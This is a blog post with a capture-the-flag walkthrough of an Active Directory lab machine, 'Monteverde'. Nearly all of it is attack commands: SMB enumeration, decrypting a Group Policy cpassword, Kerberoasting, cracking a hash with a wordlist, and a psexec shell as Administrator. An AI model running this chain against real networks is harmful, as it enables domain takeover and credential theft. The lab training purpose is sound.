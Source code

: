 ```yaml
---
# multilingual page pair id, this must pair with translations of this page. (This name must be unique)
lng_pair: id_monteverde
title: "Monteverde"

# post specific
# if not specified, .name will be used from _data/owner/[language].yml
author: Bast1ant1c
# multiple category is not supported
category: Easy
# multiple tag entries are possible
tags: [AD, pentesting]
# thumbnail image for post
img: ":main_photo.jpg"
# disable comments on this page
#comments_disable: true

# publish date
date: 2022-12-27

# seo
# if not specified, date will be used.
#meta_modify_date: 2022-01-01 10:04:30 +0900
# check the meta_common_description in _data/owner/[language].yml
meta_description: ""

# optional
# please use the "image_viewer_on" below to enable image viewer for individual pages or posts (_posts/ or [language]/_posts folders).
# image viewer can be enabled or disabled for all posts using the "image_viewer_posts: true" setting in _data/conf/main.yml.
#image_viewer_on: true
# please use the "image_lazy_loader_on" below to enable image lazy loader for individual pages or posts (_posts/ or [language]/_posts folders).
# image lazy loader can be enabled or disabled for all posts using the "image_lazy_loader_posts: true" setting in _data/conf/main.yml.
#image_lazy_loader_on: true
# exclude from on site search
#on_site_search_exclude: true
# exclude from search engines
#search_engine_exclude: true
# to disable this page, simply set published: false or delete this file
#published: false
---
```

<!-- outline-start -->

Hola, esta es la máquina monteverde! Let's hack!

<!-- outline-end -->

## RECON
```python
ping -c 1 <IP>
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP> -oG ports
extractports <ports>
nmap -sCV <PORTS> -oG services
```

## AD DOMAIN DETECTION
```bash
crackmapexec smb <IP>
sudo su
nvim /etc/hosts
<IP>	<DOMAIN>
```

## SMB ENUM
```bash
smbclient -L <IP> -N
crackmapexec smb <IP> --shares
smbmap -H <IP>
smbmap -H <IP> -r Replication/monteverde.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/
smbmap -H <IP> --download Replication/monteverde.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
mv <IP>-Replication_monteverde.htb_Policies_{31B2F340-016D-11D2-945F-00C04FB984F9}_MACHINE_Preferences_Groups_Groups.xml groups.xml
```

## DECRYPT GROUPS.XML PASSWORD
```bash
gpp-decrypt '<CPASSWORD>'
```

## GRANTED SMB ACCESS SVC_TGS USER
```bash
crackmapexec smb <IP> -u 'SVC_TGS' -p '<PASSWORD>'
crackmapexec smb <IP> -u 'SVC_TGS' -p '<PASSWORD>' --shares
smbmap -H <IP> -u 'SVC_TGS' -p '<PASSWORD>' -r Users/SVC_TGS/Desktop/user.txt
```

## FLAG USER.TXT
```bash
smbmap -H <IP> -u 'SVC_TGS' -p '<PASSWORD>' --download Users/SVC_TGS/Desktop/user.txt
mv <IP>-Users_SVC_TGS_Desktop_user.txt user.txt
cat user.txt
```

## AD ENUM RPCCLIENT
```bash
rpcclient -U "SVC_TGS%<PASSWORD>" <IP>
rpcclient -U "SVC_TGS%<PASSWORD>" <IP> -c 'enumdomusers'
rpcclient -U "SVC_TGS%<PASSWORD>" <IP> -c 'enumdomgroups'
rpcclient -U "SVC_TGS%<PASSWORD>" <IP> -c 'querygroupmem 0x200'
rpcclient -U "SVC_TGS%<PASSWORD>" <IP> -c 'queryuser 0x1f4'
rpcclient -U "SVC_TGS%<PASSWORD>" <IP> -c 'querydispinfo'
echo SVC_TGS > users.txt
```

## AD TGT GETNPUSERS.PY
```bash
GetNPUsers.py monteverde.htb/ --no-pass -usersfile users.txt
```

## AD USER ENUM KERBRUTE
```bash
kerbrute userenum --dc <IP> -d monteverde.htb /usr/share/Seclists/Usernames/Names/names.txt
```

## ADJUST DATE & TIME WITH AD (OPTIONAL)
```bash
ntpdate <IP>
```

## AD TGS GETUSERSPN.PY
```bash
GetUserSPN.py monteverde.htb/SVC_TGS:<PASSWORD> -request
```

## BRUTEFORCE ADMINISTRATOR HASH
```bash
echo '<HASH>' > hash
john -w:/usr/share/wordlists/rockyou.txt hash
```

## GRANTED ACCESS ADMINISTRATOR USER
```bash
crackmapexec smb <IP> -u 'Administrator' -p '<PASSWORD>'
psexec.py 'monteverde.htb/Administrator:<PASSWORD>@<IP>' cmd.exe
whoami
```

## FLAG ROOT.TXT
```bash
type C:\Users\Administrator\Desktop\root.txt
```
